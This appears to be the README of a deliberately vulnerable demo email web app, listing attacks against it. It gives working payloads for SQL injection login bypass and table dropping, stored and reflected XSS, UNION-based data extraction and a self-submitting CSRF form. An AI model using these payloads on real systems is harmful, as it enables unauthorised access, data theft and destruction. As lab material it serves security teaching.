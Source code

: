 # List of possible attacks

## SQL Injection

Unlocks: Get access without password.

On login, enter `<USERNAME>' --` as email, where `<USERNAME>` is the target username.
Enter as password any value.

Works, because the password is checked after the email and the input is not sanitized.

## SQL Injection

Unlocks: Run any SQL statement.

On login, enter `'; <SQL_STATEMENT> --` as email, where `<SQL_STATEMENT>` is any SQL statement, like `'; drop table email; --` for 
example.

## Stored XSS

Unlocks: Run any JavaScript code on sender and receiver of email.

Once logged in, email an existing user with `<script>console.log("pwned");</script>` as the subject or the body of the email.

## Reflected XSS

On registration, pass `<script>console.log("pwned");</script>` as the email to run the script on the victim's browser.

This is equivalent to making a POST request to the following URL:
```
http://localhost:8080/register?name=Name1&surname=Surname1&email=%3Cscript%3Econsole.log%28%22pwned%22%29%3B%3C%2Fscript%3E&password=123
```
This URL can be used for a XSRF attack, like shown below.

## Reflected XSS

Feature: Run any JavaScript code.

On registration, enter a valid email and `"><script>console.log("pwned");</script>` as password to run the script on the victim's browser.

This is equivalent to making a POST request to the following URL:
```
http://localhost:8080/register?name=Name3&surname=Surname3&email=user3%40gmail.com&password=%22%3E%3Cscript%3Econsole.log%28%22pwned%22%29%3B%3C%2Fscript%3E
```
This URL can be used for a XSRF attack, like shown below.

The email check is disabled, because the responsible query is compiled to:
```sql
SELECT * FROM [user] WHERE email=''; --'
```
The password is not treated and embedded in the response, resulting in the execution of the script in the victim's browser.

_Note: The password can be at most 50 characters long due the limit imposed by the database.
Using a longer string throws an exception on the server and does not return the script in the response._

## XSRF

The following HTML page can be forged, such that the session cookie of the victim visiting the page is used to authenticate the sending of an arbitrary email.
In this example `user1@gmail.com` is forced to email `user2@gmail.com`.
```html
<form id="submitMail" class="form-resize" action="http://localhost:8080/email-send"
      method="post">
    <input type="hidden" name="email" value="user1@gmail.com">
    <input class="hidden" name="receiver" placeholder="Receiver" required="" value="user2@gmail.com">
    <input class="hidden" name="subject" placeholder="Subject" required="" value="PWNED">
    <input class="hidden" name="body" placeholder="Body" required="" value="Forced message">
</form>
<script>document.forms.submitMail.submit();</script>
```

_Note: The sender does not have to be the owner of the cookie used to authenticate the request._

## In-band SQL Injection

On login, pass `user1@gmail.com' UNION SELECT @@VERSION, CURRENT_USER, @@VERSION, CURRENT_USER, @@VERSION --` as email to receive a verbose description of the database version and the name of the current database user.

_Note: 5 expressions are used in the select statement, because the user table has 5 columns too._

## In-band SQL Injection

Assume that we know the structure of the database tables.

On login, pass `' UNION SELECT subject, subject, subject, receiver FROM email --` as email to receive 
the subject and the receiver of the first email returned by the database.

_Note: 4 expressions are used in the select statement, because the user table has 4 columns too. 
Only the 3rd and the 4th expression are then extracted and returned by the web server._